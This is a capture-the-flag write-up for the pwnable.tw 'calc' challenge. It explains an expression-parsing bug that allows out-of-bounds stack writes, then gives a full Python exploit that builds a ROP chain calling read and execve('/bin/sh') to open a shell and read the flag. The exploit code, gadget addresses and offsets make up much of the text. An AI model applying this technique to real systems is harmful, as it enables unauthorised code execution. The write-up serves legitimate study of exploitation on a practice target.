# pwnable.tw - calc

Original challenge link: https://pwnable.tw/challenge/#3

You can also download the challenge files in my repo: [calc.zip](calc.zip)

Download and unzip, then let's start!

# 1. Find bug

First, let's get the basic information of file:

```bash
$ file calc
calc: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=26cd6e85abb708b115d4526bcce2ea6db8a80c64, not stripped

$ checksec calc
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

This is a 32-bit file without being stripped. We can also see that `Canary found` and `NX enabled`.

Next, let's decompile the file with ghidra to get the flow. The function `main` doesn't have much thing to do so let's move on the `calc` function.

In `calc`, it first erases 2 spaces for inputing expression and for storing numbers (we call it `pool`).

In `get_expr`, it reads byte to byte and checks whether that byte is `+` or `-` or `*` or `/` or `%` or number, and that byte will be added into the space for inputing expression in `calc`. So we cannot bypass or exploit this function because there are no vulnerabilities.

In `calc`, after it gets the expression, then it parses that expression with `parse_expr`. The idea of `parse_expr` is that it will count the length of number and stop at any operator as above, then malloc a chunk with that length+1 and copy the exact length of number in expression space to chunk. Then it will execute the expression, respectively with `eval` function.

However, there is a mistake in the check of expression, in the assignment of operator and also when it takes the number, then `atoi` and adds to the `pool`:



The check of expression will not allow us to input something like `2+-3` as we can type on calculator. Next, the operator will be added when `operator[j] == '\0'`. But if we input `-2+3`, the `-` will be added to `operator[j]` with `j` is the variable I renamed it. And then it continue counting the length of number until it finds another operator.

Because we've already added the `-` to `operator[j]` so at the check `if (operator[j] == '\0')`, the code inside `if` will not be execute, but the code in `else` will do. But wait, we've just added number `2` to `pool` and we calculate the expression with `eval`, it will do something interesting.

In bref, if we input `+2` for the begining, it will make the size of `pool` (the size of numbers in the pool) to `2` and the number `2` will be added at `pool[2]` with data type of `pool` is `int`. So if we input `+100` for the begining of expression, we can make `pool` point to the stack at `pool[100]`. And just simply add a expresstion after that begining input such as `+100+200`, we can change the stack at `pool[100] = 200`.

But the expression will also change the value at `pool[99]` due to the sum.

# 2. Idea

With the bug in hand, we just simply calculate the offset between `pool` and saved eip of `main`. I choose `main` because we don't want it segfault when changing things.

But because inputing as above `pool[100]` will affect `pool[99]` so we will input the payload with a reverse order. We will want to make it reads first to input the string `/bin/sh` and then calls execve by using syscall. And with per expression, the `pool` is reset to null again so we don't need to worry about the things in `pool` for per round.

Summary:
- Stage 1: Create payload
- Stage 2: Input payload

# 3. Exploit

### Stage 1: Create payload

First, we will make a ropchain so let's find some gadgets:

```bash
$ ROPgadget --binary calc > gadget

$ cat gadget | grep ": pop"
0x0805c34b : pop eax ; ret
...
0x080701d1 : pop ecx ; pop ebx ; ret
...
0x080701aa : pop edx ; ret
...

$ cat gadget | grep "int 0x80"
...
0x0807087e : nop ; nop ; int 0x80        # This gadget has ret
...
```

Next, we will want a specific place to write string `/bin/sh` so let's debug the file with gdb and type `vmmap` (tested with gdb-gef):



So the address where we can write in range from `0x80eb000` to `0x80ed000`. Let's choose any address in that range so I will choose `0x80eba00`. Now, we will need to find the offset between `pool` and saved eip of main. Still in gdb, make it run to `calc`, before it jump to `parse_expr`, let's calculate the offset:



This is saved ebp of main so saved eip of main will be `ebp + 4`, which is `0xffffcfec`. And the stack will look like this:



So the `pool` is at the address of `0xffffca28`. Let's calculate the distance:



We found the offset is `0x171`. Let's check that with just a simple script as follows:

```python
from pwn import *

context.binary = exe = ELF('./calc', checksec=False)
context.log_level = 'debug'

p = process(exe.path)
p.recvline()

input(str(p.pid))
eip = 0x171
payload = f'+{eip}+{0x500}'.encode()
p.sendline(payload)

p.interactive()
```



The highlighted address is address of `pool`. The address above `pool` is our expression. Let's check that:

```gdb
gef➤  # x/2xw <saved ebp of main>
gef➤  x/2xw 0xffc2dc88
0xffc2dc88:	0x08049c30	0x0804967a

gef➤  x/2xw 0xffc2d6c8 + 369*4 + 4
0xffc2dc90:	0x00000001	0xffc2dd14
```

We can see that saved eip of main is at `0xffc2dc88 + 4 = 0xffc2dc8c` but `pool[0x171]` points after saved eip. The correct offset now change to `0x170`.

We have everything now, let's write a simple payload as following:

```python
eip = 0x170
rw_section = 0x80eba00
pop_eax = 0x0805c34b
pop_ecx_ebx = 0x080701d1
pop_edx = 0x080701aa
int_80_ret = 0x0807087e

payload_list = [
	# read(0, rw_section, 0x200)
	pop_eax, 3,
	pop_ecx_ebx, rw_section, 0,
	pop_edx, 0x200,
	int_80_ret,
	pop_eax, 0xb,
	pop_ecx_ebx, 0, rw_section,
	pop_edx, 0,
	int_80_ret
	]
```

Because we want to input number, not any byte so we won't pack them. That's good for us now! Let's move on!

### Stage 2: Input payload

Now, we just simply input it from bottom to up with the index plus `0x170`, that's the distance between `pool` 
and saved eip of main:

```python
for i in range(len(payload_list)-1, -1, -1):
	payload = f'+{0x170+i}+{payload_list[i]}'.encode()
	p.sendline(payload)
```

Let's attach with gdb to check if it is correct or not:



Hm I notice there are no null byte in our payload inputted. That's because we are not allow to input number `0` in the expression. So there are no way to input `0`. But we can trigger that to create 4-byte null by making a subtraction. For example, when we input `+368+512`, the `pool[368]` will contain `512`, and the operator `+` will make `pool[367] = pool[367] + pool[368]` so `pool[367]` now containing `512`. And we want to make `pool[367]` to null again, we just need to input `+368-512` and `pool[368]` will contain `512` while `pool[367]` is null now.

And then the value of `pool[367]` will be printed out

But because the data type of pool is `int` so we will need to convert the number we get after inputing expression to make a integer overflow to make it null. For example, if we input `+368+512` and `pool[367]` containing `0xdeadbeef`. After the first expression `+368+512` is parsed and executed, `pool[367]` now contains `0xdeadc0ef` and `pool[368]` contains `512`. 

Then the program will print out `-559038225` which is equal to `0xdeadc0ef` above. So we will use `struct` in python to convert from `-559038225` to `0xdeadc0ef` and then calculate the number we want to add to make it from `0xdeadc0ef` to `0x100000000` (5 bytes in total). And the number we want to add is `0x100000000 - 0xdeadc0ef = 0x21523f11`, convert to int is `559038225`. 

The above is just an example. In our case, we will not only subtract the number printed out but also the number we want to add. For example, the number printed out is `0xdeadc0ef` and the number we want to add is `0x08040201`. We also want to make 4-byte null as above so the number we want to add is `0x100000000 - 0xdeadc0ef - 0x08040201 = 0x194e3d10`, convert to int is `424557840`.

So let's make a function to convert and get the number we want to add:

```python
def getnum(num, need):
	if num<0:
		num = u32(struct.pack('<i', num))
	num = struct.unpack('<i', p32((0x100000000 - num - need)))[0]
	num = str(num)
	if '-' not in num:
		num = '+' + num
	return num
```

And the code will be updated to this:

```python
for i in range(len(payload_list)-1, -1, -1):
	# We don't want program print out anything unrelated to number
	if payload_list[i]==0:
		continue

	# If we have 4-byte null before current inputing number
	if payload_list[i-1]==0:
		payload = f'+{eip+i}+{payload_list[i]}'.encode()
		p.sendline(payload)
		recv = int(p.recvline()[:-1])
		print(recv, payload_list[i])
		
		# If number is equal, just simply subtract
		if recv==payload_list[i]:
			payload = f'+{eip+i}-{payload_list[i]}'.encode()
			p.sendline(payload)
			p.recvline()
		# If number is not equal, means something added
		# Make previous number to opposite of number want to add of current number 
		else:
			t = getnum(recv, payload_list[i])
			payload = f'+{eip+i}{t}'.encode()
			p.sendline(payload)
			p.recvline()
			payload = f'+{eip+i}+{payload_list[i]}'.encode()
			p.sendline(payload)
			p.recvline()
		
	else:
		payload = f'+{eip+i}+{payload_list[i]}'.encode()
		p.sendline(payload)
		p.recvline()
```

Run script again and attach with gdb to check if our payload inputted correctly or not:



We get the null byte in our payload. Let's make it run to `ret` of main by input `\n` and check if we can input with syscall read or not. And of course, it wait for our input and I inputted `AAAAAAAABBBBBBBB`:



Let's `ni` and check for all of our payload to see if all the register is correct for a syscall of execve or not:



Nice! Let's finish our script by sending `\n` and string `/bin/sh\x00` to create shell:

```python
p.sendline()
p.send(b'/bin/sh\x00')
```

And we get the shell!

Full script: [solve.py](solve.py)

# 4. Get flag

We can get the flag at `/home/calc/flag`

